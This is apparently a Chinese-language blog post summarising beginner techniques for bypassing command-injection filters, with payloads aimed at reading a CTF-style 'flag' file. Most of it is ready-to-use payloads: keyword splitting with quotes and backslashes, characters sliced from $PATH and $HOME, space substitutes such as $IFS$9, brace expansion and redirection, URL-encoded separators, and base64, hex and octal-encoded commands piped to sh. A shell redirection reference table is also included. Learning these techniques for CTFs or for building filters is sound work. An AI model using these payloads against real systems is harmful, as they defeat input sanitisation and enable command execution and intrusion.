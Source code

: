 ```yaml
---
title: 代码执行绕过 | 初级 | 小结
abbrlink: efdbbe03
tags:
  - 编码
  - 绕过
categories:
  - 知识总结
date: 2020-09-24 14:04:32
---
```


梳理总结相关知识，持续记录各种绕过方法。

<!-- more -->

## 拼接绕过

### 反斜杠绕过

ca\\t fl\\ag

### 反单引号绕过

c\`\`a\`\`t flag

### 单引号绕过

c''a''t flag

### 双引号绕过

c""a""t flag

### 插入注释绕过

c\\\*ba2in9a\*\\at flag

## 自定义变量绕过

a=l;b=s;\$a\$b

a=fl;b=ag;cat \$a\$b

## 未初始化变量绕过

cat$m flag

## Shell 特殊变量绕过

当变量不存在时其值为空

### Shell 特殊变量

<details>
<summary> <b> <samp> 点击查看内容 </samp></b></summary>
<ul>
<li> $0  :   当前脚本的文件名</li>
<li> $n  :  传递给脚本或函数的参数（n为正整数）</li>
<li> $#  :  传递给脚本或函数的参数个数</li>
<li> $*  :  传递给脚本或函数的所有参数</li>
<li> $@  :  传递给脚本或函数的所有参数</li>
<li> $?  :  上个命令的退出状态，或函数的返回值</li>
<li> $$  :  当前 Shell 进程或 Shell 脚本所在进程 ID</li>
<li>"$*" :  会将所有的参数作为一个整体，以"$1 $2 … \$n"的形式输出所有参数</li>
<li>"$@" :  会将各个参数分开，以"$1" "$2" … "$n" 的形式输出所有参数</li>
</ul>
</details>

## 利用PATH绕过

\${PATH:5:1} -> l

\${PATH:2:1} -> s

\${PATH:5:1}\${PATH:2:1}

## 过滤斜杠绕过

### \${HOME:0:1}

cat ${HOME:0:1}flag

### echo . | tr ‘!-0’ ‘"-1’

cat $(echo . | tr ‘!-0’ ‘"-1’)flag

## 过滤空格绕过

### Linux

#### {OS_COMMAND,ARGUMENT}可执行系统命令

{cat,flag.php}

#### ;

连接前后命令，多条命令顺序执行，命令之间没有任何逻辑关系

#### 重定向符

##### <和<>

cat<flag.txt

cat<>flag.txt

###### 示例

<details>
<summary> <b> <samp> 点击查看内容 </samp></b></summary>
<table>
	<caption>
		输出重定向符号</caption>
	<tbody>
		<tr>
			<th >
				类&nbsp;型</th>
			<th >
				符&nbsp;号</th>
			<th>
				作&nbsp;用</th>
		</tr>
		<tr>
			<td rowspan="2">
				标准输出重定向</td>
			<td>
				command&nbsp;&gt;file</td>
			<td>
				以覆盖的方式，把 command 的正确输出结果输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file</td>
			<td>
				以追加的方式，把 command 的正确输出结果输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td rowspan="2">
				标准错误输出重定向</td>
			<td>
				command 2&gt;file</td>
			<td>
				以覆盖的方式，把 command 的错误信息输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td>
				command 2&gt;&gt;file</td>
			<td>
				以追加的方式，把 command&nbsp;的错误信息输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td colspan="1" rowspan="6">
				正确输出和错误信息同时保存</td>
			<td>
				command &gt;file&nbsp;2&gt;&amp;1</td>
			<td>
				以覆盖的方式，把正确输出和错误信息同时保存到同一个文件（file）中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file&nbsp;2&gt;&amp;1</td>
			<td>
				以追加的方式，把正确输出和错误信息同时保存到同一个文件（file）中</td>
		</tr>
		<tr>
			<td>
				command &gt;file1 2&gt;file2</td>
			<td>
				以覆盖的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file1&nbsp; 2&gt;&gt;file2</td>
			<td>
				以追加的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;file 2&gt;file</td>
			<td colspan="1" rowspan="2">
				【<span style="color:#b22222;"><b>不推荐</b></span>】这两种写法会导致 file 被打开两次，引起资源竞争， stdout 和 stderr 会互相覆盖</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file 2&gt;&gt;file</td>
		</tr>
	</tbody>
</table>
</details>

##### IFS

###### \$IFS

\$IFS 在 Linux 下表示分隔符

cat\$IFSflag.txt

 bash 会将 IFSflag 当作变量名，导致无法输出预期结果

###### \$IFS$9

加个 \$ 起截断的作用

\$9表示当前系统 shell 进程的第九个参数的持有者，其始终为空字符串

cat\$IFS$9flag.txt

###### \${IFS}

加 \{\} 起固定变量名的作用

cat\${IFS}flag.txt

### Windows

仅 type 命令可行

type.\\flag.txt

type,flag.txt

### URL 编码

#### PHP 环境

%09 horizontal tab 水平制表符

%0a line feed 换行符

%0d vertical tab   垂直制表符

##### 命令终止符

%00 null character 零字符

%20# space 空格符

### 示例

ca\$9t fl\$9ag

ca\$\*t fl\$\*ag 

ca\$\@t fl\$\@ag

## 编码绕过

反引号\`\`和$()和{}|$0用来表示命令执行

cat /flag

```
base64:  Y2F0IC9mbGFn

hex:  636174202f666c6167

oct:  \x63\x61\x74\x20\x2f\x66\x6c\x61\x67
```

### base64

```
echo Y2F0IC9mbGFn|base64 -d|sh

`echo Y2F0IC9mbGFn|base64 -d`

$(echo Y2F0IC9mbGFn|base64 -d)

{echo Y2F0IC9mbGFn|base64 -d}|$0
```

### hex

echo 636174202f666c6167|xxd -r -p|sh

\`echo 636174202f666c6167|xxd -r -p\`

$(echo 636174202f666c6167|xxd -r -p)

{echo 636174202f666c6167|xxd -r -p}|$0

### oct

```
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")

{printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0
```